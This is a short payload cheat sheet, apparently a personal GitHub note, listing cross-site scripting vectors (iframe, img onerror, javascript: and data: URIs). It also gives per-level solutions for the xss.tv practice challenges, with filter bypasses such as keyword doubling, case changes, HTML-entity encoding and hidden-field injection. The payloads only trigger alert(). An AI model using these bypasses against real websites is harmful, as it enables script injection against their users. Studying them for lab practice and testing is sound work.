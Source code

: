 
#    xss payload

- <iframe src="data:text/html,<script>alert(1)</script>"></iframe>

- <img src=1 onerror=alert(9)

- <iframe onload="alert(1)"></iframe>

- <iframe src="javascript:alert(1)"></iframe>

- <iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>

- <iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>

- <iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe> chrome下


## http://test.xss.tv/level1.php?name=  firefox下 xss练习

others http://www.cnblogs.com/r00tuser/p/7407459.html

- 1 <span onclick =alert(9)>a</span>

- 2 " onclick=alert(9) "

- 3 ' " onclick=alert(9) " >

- 4 ' " onclick=alert(9) " >

- 5 ' " > <a href=javascript:alert(9) >aa</a>"

- 6 ' " > <a hRef=javascript:alert(9) >aa</a>"

- 7 ' " oonnclick=alert(9) "'

- 8 javascript:alert(9) &#X十六进制编码：  &#x006a;&#x0061;&#x0076;&#x0061;&#x0073;&#x0063;&#x0072;&#x0069;&#x0070;&#x0074;&#x003a;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x0039;&#x0029;

- 9 前置编码 ：&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;alert('http://')

- 10 http://test.xss.tv/level10.php?keyword=  这题比较隐蔽

	分析里面input:hidden 提交里面的字段

	payload:http://test.xss.tv/level10.php?keyword=aa&t_sort=%22%20type=text%20onclick=alert(9)%20%22